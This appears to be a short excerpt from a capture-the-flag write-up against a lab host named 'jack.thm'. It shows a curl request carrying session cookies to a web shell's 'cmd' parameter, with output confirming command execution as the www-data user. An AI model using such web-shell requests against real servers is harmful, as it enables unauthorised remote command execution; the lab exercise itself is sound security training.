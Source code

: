 ![image.png](image%2010.png)

![image.png](image%2011.png)

`curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=id'`

```powershell
GET me a 'cmd' and I'll run it for you Future-Jack.
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
